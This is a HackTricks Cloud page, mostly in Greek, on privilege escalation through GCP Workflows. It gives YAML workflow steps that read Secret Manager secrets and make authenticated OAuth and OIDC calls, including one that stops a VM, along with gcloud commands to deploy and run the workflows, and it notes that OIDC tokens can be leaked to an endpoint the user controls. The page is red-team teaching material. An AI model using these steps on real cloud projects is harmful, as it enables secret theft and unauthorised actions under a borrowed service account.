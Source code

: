 # GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

Basic Information:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

Όπως γνωρίζω, δεν είναι δυνατόν να αποκτήσετε ένα shell με πρόσβαση στο endpoint μεταδεδομένων που περιέχει τα διαπιστευτήρια SA του SA που επιτίθεται σε ένα Workflow. Ωστόσο, είναι δυνατόν να καταχραστείτε τις άδειες του SA προσθέτοντας τις ενέργειες που πρέπει να εκτελούνται μέσα στο Workflow.

Είναι δυνατόν να βρείτε την τεκμηρίωση των συνδετήρων. Για παράδειγμα, αυτή είναι η [**σελίδα του συνδετήρα Secretmanager**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** Στη γραμμή πλοήγησης είναι δυνατόν να βρείτε αρκετούς άλλους συνδετήρες.

Και εδώ μπορείτε να βρείτε ένα παράδειγμα ενός συνδετήρα που εκτυπώνει ένα μυστικό:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
Ενημέρωση από το CLI:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
Αν δεν έχετε πρόσβαση στο διαδίκτυο, είναι δυνατόν να ενεργοποιήσετε και να δείτε την εκτέλεση ενός Workflow με: 

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
Μπορείτε επίσης να ελέγξετε την έξοδο προηγούμενων εκτελέσεων για να αναζητήσετε ευαίσθητες πληροφορίες
{% endhint %}

Σημειώστε ότι ακόμη και αν λάβετε ένα σφάλμα όπως `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` επειδή δεν έχετε αυτή την άδεια, η ροή εργασίας έχει δημιουργηθεί.

### Διαρροή OIDC token (και OAuth?)

Σύμφωνα [**με τα έγγραφα**](https://cloud.google.com/workflows/docs/authenticate-from-workflow), είναι δυνατόν να χρησιμοποιήσετε βήματα ροής εργασίας που θα στείλουν ένα HTTP αίτημα με το OAuth ή OIDC token. Ωστόσο, όπως και στην περίπτωση του [Cloud Scheduler](gcp-cloudscheduler-privesc.md), το HTTP αίτημα με το Oauth token πρέπει να είναι προς τον κεντρικό υπολογιστή `.googleapis.com`.

{% hint style="danger" %}
Επομένως, είναι **δυνατό να διαρρεύσει το OIDC token υποδεικνύοντας ένα HTTP endpoint** που ελέγχεται από τον χρήστη, αλλά για να διαρρεύσει το **OAuth** token θα χρειαστείτε **μια παράκαμψη** για αυτή την προστασία. Ωστόσο, μπορείτε ακόμα να **επικοινωνήσετε με οποιοδήποτε GCP api για να εκτελέσετε ενέργειες εκ μέρους του SA** χρησιμοποιώντας είτε συνδέσμους είτε HTTP αιτήματα με το OAuth token.
{% endhint %}

#### Oauth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

Με αυτή την άδεια αντί για `workflows.workflows.create` είναι δυνατή η ενημέρωση ενός ήδη υπάρχοντος workflow και η εκτέλεση των ίδιων επιθέσεων.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
